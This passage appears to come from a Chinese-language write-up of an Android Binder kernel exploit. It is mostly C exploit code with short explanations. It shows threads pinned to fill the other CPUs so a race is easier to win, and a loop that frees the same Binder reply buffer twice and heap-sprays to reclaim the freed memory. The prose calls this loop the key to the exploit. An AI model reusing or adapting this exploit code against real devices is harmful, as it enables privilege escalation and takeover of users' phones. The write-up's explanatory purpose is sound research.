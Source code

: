 ```c
	pthread_create(&id1_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id2_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id3_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id4_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id5_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id6_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id7_cpu3, NULL, fillCpu, &cpu3);
	sleep(10);
}
void* fillCpu(void *arg)
{
        int index = *(int *)arg;
	cpu_set_t mask;
    	CPU_ZERO(&mask);
    	CPU_SET(index, &mask);
	pid_t pid = gettid();
	syscall(__NR_sched_setaffinity, pid, sizeof(mask), &mask);
	//printf("[+] cpu:%d, tid:%d, freeze\n", index, pid);
	while (!fillFlag)
	{
		index++;
	}

        return arg;
}
```

它所作的事就是将其他cpu占满，让后面的主线程和子线程在一个cpu上运行，提高条件竞争的概率

接着

```c
raceTimes();
```

这个函数是漏洞实现的关键，它所作了条件竞争，堆喷占位两件事

```c
void bc_free_buffer(int replyParcelIndex)
{
	replyArray[replyParcelIndex].~Parcel();
	IPCThreadState::self()->flushCommands();
}
void raceWin(int replyParcelIndex)
{
	pthread_mutex_lock(&alloc_mutex);
	bc_free_buffer(replyParcelIndex);
	global_parcel_index = replyParcelIndex;
	pthread_cond_signal(&alloc_cond);
	pthread_mutex_unlock(&alloc_mutex);
	usleep(450);
	bc_free_buffer(replyParcelIndex);
	bc_free_buffer(replyParcelIndex - 1);
	heap_spray_times();
	restartWatch();
} 
void raceTimes()
{
	for(int i = BAIT - 1; i > 0; i--)
	{
		raceWin(i);
	}
}

```
